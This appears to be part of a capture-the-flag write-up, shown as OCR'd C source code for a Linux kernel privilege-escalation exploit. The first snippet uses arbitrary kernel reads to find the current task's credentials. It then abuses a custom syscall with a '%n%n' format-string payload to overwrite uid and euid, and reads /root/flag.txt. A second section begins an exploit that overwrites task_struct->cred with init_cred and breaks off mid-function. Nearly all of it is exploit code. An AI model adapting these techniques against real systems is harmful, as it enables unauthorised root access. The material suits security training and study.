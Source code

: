 ```c
    uint64_t current_cred_addr = task_struct + 0x6b8;
    uint64_t current_cred = arb_read_ptr(current_cred_addr);

    printf("kernel base: %p\n", kbase);
    printf("task_struct: %p\n", task_struct);
    printf("current cred: %p\n", current_cred);

    char *data[] = {"%n%n", 
        current_cred + 1*4, // uid
        current_cred + 5*4  // euid
    };

    syscall(SYSCALL_NO, data);
    system("id; cat /root/flag.txt");
}
```
## Overwrite task_struct->cred to init_cred
```c
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>

#define SYSCALL_NO 548

int fd = -1;

__attribute__((constructor)) void init(){
    mkfifo("/home/user/stdin_fifo", 0666);
    freopen("/home/user/stdin_fifo", "r+", stdin);
    fd = open("/home/user/stdin_fifo", O_RDWR);
}

int bytes_left(){
    int nbytes;
    ioctl(fd, FIONREAD, &nbytes);

    return nbytes;
}

int clear_stdin(){
    int size = bytes_left();

    char *buf = malloc(size);
    int ret = read(fd, buf, size);
    free(buf);

    return ret;
}

uint64_t read_ptr_stdin(){
    uint64_t ptr = 0;
    int n = bytes_left();

    if(n > 0){
        read(fd, &ptr, 8);
```